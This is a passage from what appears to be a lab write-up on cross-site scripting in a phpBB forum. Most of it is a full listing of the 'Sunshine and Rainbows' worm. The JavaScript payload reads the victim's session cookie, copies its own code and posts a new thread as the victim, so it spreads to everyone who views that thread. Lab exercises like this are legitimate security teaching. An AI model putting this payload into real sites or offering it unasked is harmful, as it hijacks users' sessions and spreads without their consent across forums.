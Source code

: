 

\subsection{The Sunshine and Rainbows Worm}

Browsers are arbitrary code execution platforms. An attacker can write some javascript to essentially perform the same
task as the Java from the previous stage, which will then send packets from the victim's computer to the server, meaning
that spoofed packets are no longer necessary. This can cause an innocent forum user viewing a malicious thread to
immediately create a new thread, without their knowledge. The specific malicious code is as follows:

\begin{lstlisting}[caption=A human-readable version of the Sunshine and Rainbows worm]
//Place a giant image in the post, so we're not just posting nothing
<img src=http://i.imgur.com/B4kPQ.jpg>

//Define the worm
<script id=sunshineAndRainbows>
    //Grab all the user's cookies
    var cookies=document.cookie.split(';');
    var sid_cookie=null;
    //Search through the array of cookies for the one that contains "phpbb2mysql_sid"
    //Note that we need to use i=i-(-1) here since + symbols aren't allowed
    for(i=0;i<cookies.length;i=i-(-1)){
        //When we find it, slice of the start. The rest of the string will be
        //the cookie we need
        if(cookies[i].match("phpbb2mysql_sid")) sid_cookie=cookies[i].slice(13)
    };
    //Grab the payload from the current web page
    var payload=document.getElementById("sunshineAndRainbows").innerHTML;
    var Ajax=null;

    //Build the HTTP Request to match the contents of a genuine posting request
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
    Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

    //Set the content to be a request to create a new thread
    var content="".concat(
        "subject=XSSWorm",//The subject of the new thread
        "&message=%3Cimg src=http://i.imgur.com/B4kPQ.jpg%3E",//The aforementioned giant image
        "%3Cscript id=sunshineAndRainbows%3E",escape(payload),"%3C%2Fscript%3E",//The self-replicating part of the virus
        "&mode=newtopic&f=1&",sid_cookie,"&post=Submit"); //Submit this as a request for a new thread in subforum 1

    //And here we go...
    Ajax.send(content);
</script>
\end{lstlisting}

